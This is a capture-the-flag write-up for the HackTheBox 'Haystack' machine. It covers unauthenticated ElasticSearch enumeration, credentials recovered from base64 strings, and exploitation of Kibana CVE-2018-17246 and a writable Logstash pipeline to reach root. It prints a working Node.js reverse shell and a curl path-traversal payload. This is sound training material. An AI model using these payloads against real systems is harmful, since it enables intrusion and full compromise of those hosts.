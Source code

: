 # PORT SCAN
* **22** &#8594; SSH
* **80** &#8594; HTTP (NGINX 1.12.2)
* **9200** &#8594; HTTP (NGINX 1.12.2) 

<br><br><br>

# ENUMERATION & USER FLAG
The port 80 welcome us with an image correlated with the machine name

![c3f434fe97345482a85a5e86d4646c85.png](img/c3f434fe97345482a85a5e86d4646c85.png)

Interesting stuff are loated on port `9200`

![6e34eae4ca644139f5180efdd1c509af.png](img/6e34eae4ca644139f5180efdd1c509af.png)

We have **<u>ElasticSearch</u>** in play (by default runningo n port 9200). With patience and time I have learned how to interract with the the ElasticSearch API and I found something interesting

![7c0069662cd68d4a10ff00f3ecc2bde1.png](img/7c0069662cd68d4a10ff00f3ecc2bde1.png)

Cool, first of all we don't need authentication (usually done through an API KEY) and second we have three **<u>indices</u>**, an index in elastic search is a logical namespace that holds a collection of documents. 
We can now use this indeces and see what data are storing, I had some cool info using `curl -X GET "haystack.htb:9200/bank/_search" | jq`

![629fcfb5e49f31ab9b2676134fe6bdd5.png](img/629fcfb5e49f31ab9b2676134fe6bdd5.png)

Here we have a collection of employees and the email fields could help us to have some valid usernames.
With the same approach we can list all the records in hte **<u>quotes</u>** index (need to add `?size=9999` to list all the records, by default only the first 10 records are listed) and with the help of `jq` I have found some base64 strings

![14d0950ce6b0cbf7f6cfc741446beeb2.png](img/14d0950ce6b0cbf7f6cfc741446beeb2.png)

![9312634e8636f6d9d2f8085a70081f46.png](img/9312634e8636f6d9d2f8085a70081f46.png)

After I decoded the 2 strings I found we have a set of credentials that can be used on SSH

![bdf314106d1302a926665c0f7d3b2d00.png](img/bdf314106d1302a926665c0f7d3b2d00.png)

After that the flag is owned, we can move on privilege escalation!

<br><br><br>

# PRIVILEGE ESCALATION
We are not in the sudoers and no SUID binary can be exploited but we have a interesting port running on target localhost

![bf5692882022a7c6a92f296819b6f30b.png](img/bf5692882022a7c6a92f296819b6f30b.png)

As anticipated before looking through the index, **<u>kibana</u>** is running and we know the port `5601` is hosting the service. Time to port forward thanksto SSH and see what is happening right there

![756049d4d5a2d1d790cc5ed571b9c985.png](img/756049d4d5a2d1d790cc5ed571b9c985.png)

The Kibana service is empty (no configuration, pretty boring) so I want to check if there is some well-known vulnerability, we already now the version is **6.4.2** (when using curl on `http://haystack.htb:9200` at the start) and this version is vulnerable to [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) which permits LFI and leverage it to gain a RCE. Using the github repo linked above I created and stored a JS reverse shell in the target filesystem thanks to the SSH session 

```{js}
reverse shell(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect([PORT], "[IP]", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Now we take note of the full path of this reverse shell and we can abuse the `LFI` to activate the reverse shell as `kibana` user. All of this can be accomplished with 

`curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/shell.js'`

We can check the netcat listener...et'voila' horizontal movement sucess!

![f3bbf577c068d169ee4e2d4a5736b037.png](img/f3bbf577c068d169ee4e2d4a5736b037.png)

From the previous user session I already know that the `root` user is running **<u>logstash</u>**

![ced45c8135df826560fc82e2b248114c.png](img/ced45c8135df826560fc82e2b248114c.png)

Logstash use pipelines in order to work and we can check them checking the contents of `/etc/logstash/pipelines.yml` file

![47e7f8072a340afbd105731b7e33e581.png](img/47e7f8072a340afbd105731b7e33e581.png)

2 things are the pivot here :
1) There is a wildcard used to specify the `.conf` files
2) With this user we can write inside the specified directory

Is game over now (for the victim obv) because is a pretty simple step to get root access. At first I tried to create a costum configuration file but we are not able to restart the service so no way to abuse it in this way, we have no other way if not look what we have inside the configuration files

* **<u>filter.conf</u>**
This configuration file will check whatever match with the string `Ejecutar comando: [COMMAND]`. This is just for the **execute** type

![ecfb15a88529ce487327b88ee19173d4.png](img/ecfb15a88529ce487327b88ee19173d4.png)

* **<u>input.conf</u>**

![f01751820fa061d2f65c64d205ecee8d.png](img/f01751820fa061d2f65c64d205ecee8d.png)

This is linked to the previous configuration file, is of type **execute** and check for every file in `/opt/kibana/logstash_*`

<br>

We can now use this configuration combo and abuse it to execute whatever command we want as root. The command I want root have to execute is a local backdoor

![832dec96c127ccfceab0b21c27d872bb.png](img/832dec96c127ccfceab0b21c27d872bb.png)

Aproximately after a minute the command would be executed and we can now get access as root!

![0cf81bd55612153801c2a3b7981bf326.png](img/0cf81bd55612153801c2a3b7981bf326.png)

> In this machine we have encountred ElasticSearch, Kibana and Logstash. This combination of technologies is called ELK stack (like WAMP/LAMP) and is used for various Blue Team activity (like detection and log monitoring). This can be done for other activity as well and knowing how they work and how they fit in the target network is focal for in enterprise enviroment as well!
